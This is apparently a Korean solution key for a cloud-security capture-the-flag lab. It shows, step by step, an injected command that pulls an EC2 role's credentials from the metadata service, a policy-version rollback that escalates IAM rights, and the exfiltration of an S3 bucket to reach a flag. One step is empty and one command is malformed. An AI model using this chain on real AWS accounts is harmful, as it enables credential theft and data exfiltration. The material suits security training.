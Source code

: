 # [cloud_secret_exfil] 모범 답안

1. 최초 제공된 2개의 자격 증명 중에서 easy route의 자격 증명을 이용하여 프로파일을 등록한다.
```bash
aws configure --profile easy_route
```

2. 자신의 권한을 확인하여 SSM 세션을 시작할 수 있다는 것을 확인한다.
```bash

```

3. 메타데이터서비스를 통해 인스턴스에 할당된 역할을 확인할 수 있다.
```bash
; TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"); curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/policy-rollback-rce-ec2-role
```

4. 얻은 자격증명을 자신의 프로필에 등록해준다
```bash
aws configure --profile rce_server
```

5. 해당 역할의 상세 정보를 먼저 확인한다
```bash
aws sts get-caller-identity --profile rce_server
```
- 이를 통해 역할의 arn과 이름정보를 확인할 수 있다.

6. 역할에 연결된 정책을 확인해본다.
```bash
aws iam list-attached-role-policies --role-name <역할 이름> --profile rce_server
```
해당 역할에 연결된 s3manager라는 이름의 정책 이름을 확인할 수 있다.

7. 정책의 버전을 확인해본다.
```bash
aws iam-get-policy --policy-arn <정책의 arn> --profile rce_server
```
정책의 버전이 현재 v1인것을 확인할 수 있다.

8. 현재 정책 버전의 권한을 확인해본다.

```bash
aws iam get-policy-version --policy-arn <정책의 arn> --profile rce_server --version-id v1
```
현재 버전에 `iam:SetDefaultPolicyVersion`이 존재하는 것을 확인 -> 다른 버전의 정책으로 교체 가능

9. 다른 버전의 정책을 확인해본다.
```bash
aws iam get-policy-version --policy-arn <정책의 arn> --profile rce_server --version-id v2
```
v2의 정책에 s3관련 권한이 모두 할당되있는 것을 확인할 수 있다.

10. v2의 정책으로 교체해준다.
```bash
aws iam set-default-policy-version --policy-arn <정책의 arn> --profile rce_server --version-id v2
```

11. S3에 접근이 가능해졌고 기밀데이터를 유출한다.
```bash
aws s3 ls

aws s3 ls s3://policy-rollback-rce-sensitive-data --profile rce_server

aws s3 sync s3://policy-rollback-rce-sensitive-data ./ --profile rce_server
```
flag.txt를 받아올 수 있다.

`flag` : FLAG{pO1iCy_rollb4CK_rcE_5uCCeS5}
